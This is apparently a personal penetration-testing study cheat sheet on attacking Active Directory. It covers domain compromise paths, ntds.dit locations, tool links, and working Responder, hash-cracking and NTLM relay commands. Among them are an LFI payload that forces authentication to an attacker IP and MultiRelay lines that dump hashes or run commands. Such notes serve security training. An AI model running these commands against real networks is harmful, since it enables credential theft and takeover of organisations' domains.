 # Active Directory  
AD Overview and tools.   
## Contents 
- [Active Directory](#active-directory)
  * [Contents](#contents)
  * [Active Directory Overview](#active-directory-overview)
  * [My AD Cheatsheets](#my-ad-cheatsheets)
  * [Other Cheat Sheets](#other-cheat-sheets)
  * [References](#references)
    + [Important Files to Check on the DC](#important-files-to-check-on-the-dc)
  * [Tools](#tools)
  * [General Tools](#general-tools)
  * [Responder](#responder)   
  
## Active Directory Overview 
To gain control over a domain:  
Compromise member of Domain Admin group.   
Compromise domain controller -> can modify all domain-joined computers or execute applications on them. 

AD: depends on DNS server, typical DC hosts DNS server that is authoritative for a given domain.    
Account types: domain admins, service accounts (can be domain admins), local admins (can't access the DC), domain users.     
Authentication mechanisms: Kerberos (uses ticket granting tickets and services to authenticate users) or NTLM (traditional Windows authentication).     
Kerberos: default authentication service that uses ticket-granting tickets and service tickets to authenticate users and give users access to other resources across the domain. Intended to be more secure than NTLM (uses 3rd party ticket authorization and stronger encryption).      
[PayloadAllTheThings - Most Common Paths to AD Compromise](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)       
Typical AD pen test:
- Exploit host on domain and gain access  as a domain user 
- Enumerate domain users and groups.  
- Privilege escalate or move laterally. 
- Get Domain Admin or Service Account access and onto the domain controller.     

Common Ways to Get AD Creds:    
- NTLM Authenticated Services  
- LDAP Bind Credentials    
- Authentication Relays      
- Microsoft Deployment Toolkit   
- Configuration Files       

## My AD Cheatsheets
[Attacks](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/Attacks.md)        
[Lateral Movement](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/LateralMovement.md)   
## Other Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)   
[Pentesting AD CheatSheet](https://i.ibb.co/TKYNCNP/Pentest-ad.png)  
[Integratio IT Cheat Sheet](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet)  

## References      
[WADComs](https://wadcoms.github.io/)    
    
### Important Files to Check on the DC
    %SYSTEMROOT%\System32\ntds.dit             #AD database with user password hashes   
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup

## Tools   
C2 Frameworks:
[PowerShell Empire](https://github.com/BC-SECURITY/Empire), Covenant    
[evil-winrm](https://github.com/nubix/evil-winrm): access Windows RM, TCP port 5985 or 5986 open.   
Responder (Spoofing is not allowed in the labs or on the exam)   
Crackmapexec  
[BloodHound](https://github.com/BloodHoundAD/BloodHound), [SharpHound](https://github.com/BloodHoundAD/SharpHound) 
Rubeus   
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 )   
[Mimikatz](https://github.com/gentilkiwi/mimikatz), [Mimikatz Cheatsheet](https://offsec.red/mimikatz-cheat-sheet/)      

## General Tools 
[Impacket](https://github.com/SecureAuthCorp/impacket): collection on Python classes for working with network protocols.       
Can be finicky - you may need to uninstall / reinstall when updating if the default Kali Impacket library is being used.    

    #if not properly installed 
    apt install impacket-scripts  
    /usr/share/doc/python3-impacket/examples  

If running inside a lab network:     
[Use Impacket static binaries](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.22.dev-binaries), compile your own or manually install      

    #manual install (if inside a lab network - will also work with most other Python packages)    
    upload Impacket files to target and run install script    
    sudo python3 setup.py install    
    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Responder 
Not allowed on the OSCP exam, but a common pen testing tool.                
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Responder Usage:   
 Config file: edit responder.conf to disable SMB / HTTP servers, change RespondTo arguement to target a specific host     

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
     sudo responder.py -I eth0 -A    #analyze / listen mode, no active poisoning    
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protocol hash type and IP captured from.      

    username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response   #NTLMv2 Responder capture format       
### Crack Hashes from Responder     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   

### NTLM Relay Attack       
Use NTLMRelay or MultiRelay to relay the credentials to any SMB server which has SMB signing disabled (can't relay the creds back to the source computer unless you are relaying them to a different service). Windows workstations have SMB signing disabled by default.          
[byt3bl33d3r Guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)    
Recon: RunFinger.py or Crackmapexec to identify hosts, OS and SMB info. Check if SMB signing is not enabled and you can perform a relay attack:                    
 
    /opt/Responder/tools $ python3 RunFinger.py -i 172.16.1.1/24       
    crackmapexec smb --gen-relay-list smb_targets.txt 192.168.1.0/24

[NTLMRelay - Impacket Script](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
You might need to disable the SMB or HTTP servers used by Responder to avoid conflicts.    

    sudo python3 ntlmrelayx.py -tf targets -smb2support     
    sudo python3 ntlmrelayx.py -socks -smb2support -tf smb_targets.txt     
    
[MultiRelay - Built into the Responder Toolkit](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)     
Requirements:     
[Pycryptdome](https://github.com/Legrandin/pycryptodome/)    

    sudo apt-get -y install python3-pip gcc-mingw-w64-x86-64 python-crypto screen      
    sudo pip3 install pycryptodomex
    cd Responder/tools/
    x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv    
    x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode     

Usage:     

    /opt/Responder/tools $ python3 MultiRelay.py -t 172.16.1.5 -u ALL -d    #Relay auth requests for all users, dump local account hashes   
    /opt/Responder/tools $ python3 MultiRelay.py -t 10.10.10.10 -c "whoami"   #exec a command    
    #can spawn a Meterpreter shell using exploit/multi/script/web_delivery using a PowerShell IEX command        
